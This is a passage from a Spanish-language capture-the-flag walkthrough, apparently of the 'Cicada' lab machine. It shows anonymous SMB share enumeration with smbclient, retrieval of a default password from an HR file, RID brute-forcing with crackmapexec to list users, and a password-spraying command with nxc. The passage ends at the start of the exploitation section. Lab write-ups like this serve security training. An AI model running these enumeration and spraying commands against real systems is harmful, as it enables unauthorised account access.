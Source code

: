 Lo más interesante es el puerto 139 (SMB). Podemos ver el contenido compartido del servicio:

![](/assets/images/Imagenes/Pasted image 20241010231059.png)

Si intentamos entrar a la carpeta de DEV vemos que no tenemos permisos:

```bash
smbclient \\\\10.10.11.35\\DEV
```

![](/assets/images/Imagenes/Pasted image 20241010232031.png)

Sin embargo si intentamos entrar a HR vemos que hay un archivo.

```bash
smbclient \\\\10.10.11.35\\HR
```

![](/assets/images/Imagenes/Pasted image 20241010232120 1.png)

Podemos descargarlo con **get**.

```bash
get "Notice from HR.txt"
```

![](/assets/images/Imagenes/Pasted image 20241010232417.png)

Si vemos su contenido veremos que existe una contraseña: **Cicada$M6Corpb*@Lp#nZp!8**.
Al parecer es para acceder a una cuenta corporativa de cicada.

![](/assets/images/Imagenes/Pasted image 20241010232645.png)

Con esto ya tenemos una contraseña, ahora nos falta tener un usuario. Para ello podemos usar la herramienta **crackmapexec**.

```bash
crackmapexec smb 10.10.11.35 -u Guest -p '' --rid-brute | tee user_list.txt
```

Después filtramos para ver los usuarios:

```bash
cat user_list.txt | grep SidTypeUser | cut -d '\' -f 2 | awk '{print $1}' > users.txt
```

![](/assets/images/Imagenes/Pasted image 20241010233623.png)

---

## Explotación

Con esta lista de usuarios de smb podemos probar para ver si coincide alguno con la contraseña que conseguimos anteriormente. Podemos hacerlo con netxec, herramienta para automatizar tareas en la red.

```bash
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'  --continue-on-success
```
